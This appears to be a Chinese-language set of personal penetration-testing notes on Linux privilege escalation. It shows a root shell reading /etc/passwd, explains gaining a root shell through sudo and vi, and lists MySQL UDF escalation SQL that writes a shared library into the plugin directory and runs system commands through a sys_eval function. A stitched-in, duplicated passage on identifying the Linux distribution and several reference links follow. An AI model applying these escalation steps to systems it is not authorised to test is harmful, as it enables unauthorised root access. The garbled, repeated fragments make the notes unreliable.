root@ubuntu:~# car /etc/passwd
car /etc/passwd
The program 'car' is currently not installed. You can install it by typing:
apt-get install ucommon-utils
root@ubuntu:~# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin

```


# sudo提权原理

sudo在linux用来临时使用其他用户拥有的命令。比如当前用户是test1（普通用户），vi命令拥有者是test2，test1是无法使用vi命令的，但是如果配置了test1可以通过sudo命令使用vi，则test1可以通过“sudo vi”来使用vi命令。要注意的是，使用的时候，实际执行vi命令的用户是test2，如果这时候在vi的命令模式下执行/bin/bash命令，则会打开一个以test2为用户的shell，如果test2刚好是root用户，则打开的就是一个root shell，从而实现提权。


### linux:arrow_right:mysql:arrow_right:udf提权

条件

​	mysql服务的root账户

​	mysqld进程使用root权限启动

​	安全开关为空 secure_file_priv=''


mysqld_safe为mysql的守护进程

```sql

show variables like '%plugin%';     -- 直接查看plugin路径

select unhex('7F454C4602...................') into dumpfile '/usr/lib64/mysql/plugin/1q2w3e4r.so';

create function sys_eval returns string soname '1q2w3e4r.so';

select sys_eval('whoami');

drop function sys_eval;
```


```
这个命令适用于所有的Linux发行版，包括RedHat、SUSE、Debian…等发行版。

2、cat /etc/redhat-release，这种方法只适合Redhat系的Linux：

[root@S-CentOS home]# cat /etc/redhat-release
CentOS release 6.5 (Final)

3、cat /etc/issue，此命令也适用于所有的Linux发行版。

[root@S-CentOS home]# cat /etc/issue
CentOS release 6.5 (Final)
Kernel \r on an \m这个命令适用于所有的Linux发行版，包括RedHat、SUSE、Debian…等发行版。

2、cat /etc/redhat-release，这种方法只适合Redhat系的Linux：

[root@S-CentOS home]# cat /etc/redhat-release
CentOS release 6.5 (Final)

3、cat /etc/issue，此命令也适用于所有的Linux发行版。

[root@S-CentOS home]# cat /etc/issue
CentOS release 6.5 (Final)
Kernel \r on an \m
```


Linux提权：https://www.jianshu.com/p/71cb0ee0f0ea

​					https://www.cnblogs.com/xiaozi/p/14264210.html

sudo提权：https://www.huaweicloud.com/articles/581c074a4866db7d0a662e08458294a0.html

​					https://blog.csdn.net/qq_41123867/article/details/105150776

